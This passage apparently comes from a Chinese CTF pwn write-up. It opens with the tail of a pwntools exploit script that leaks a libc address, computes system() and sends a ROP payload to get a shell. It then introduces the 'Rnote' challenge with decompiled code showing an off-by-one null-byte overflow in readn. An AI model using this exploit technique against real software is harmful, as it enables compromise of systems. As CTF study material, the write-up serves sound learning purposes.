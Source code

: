 ```python
    for i in range(34):
        add(i+1, i+1)
    add(0, 1)
    #gdb.attach(p, open('debug'))
    exit()
    p.sendline('/bin/sh\x00')
    __libc_start_main_addr = u64(p.recvn(6) + "\x00\x00")
    print("__libc_start_main_addr is " + hex(__libc_start_main_addr))

    system_addr = __libc_start_main_addr + libc.symbols['system'] - libc.symbols['__libc_start_main']     
    print("system addr is " + hex(system_addr))

    p.recvuntil('name pls:')
    payload = 'a'*8*33 + p64(1) + 'b'*8
    payload += p64(pop_rdi) + p64(bss) + p64(system_addr) 
    p.sendline(payload)

    for i in range(34):
        add(i+1, i+1)
    add(0, 1)
    if local and debug: gdb.attach(p, open('debug'))
    exit()

    p.interactive()


if __name__ == '__main__':
    pwn()
```

## Rnote

程序入口

```python
welcome to RNote service!
***********************
1.Add new note
2.Delete a note
3.Show a note
4.Exit
***********************
Your choice: 
```

本题的主要问题出在readn功能中，这里存在一个null-byte溢出

```c
__int64 __fastcall readn(__int64 a1, unsigned int a2)
{
  for ( i = 0; i <= (signed int)a2; ++i )
  {
    if ( read(0, &buf, 1uLL) < 0 )
      exit(1);
    *(_BYTE *)(a1 + i) = buf;
    if ( *(_BYTE *)(i + a1) == '\n' )
    {
      *(_BYTE *)(i + a1) = 0;
      return (unsigned int)i;
    }
  }
  return (unsigned int)i;
}
```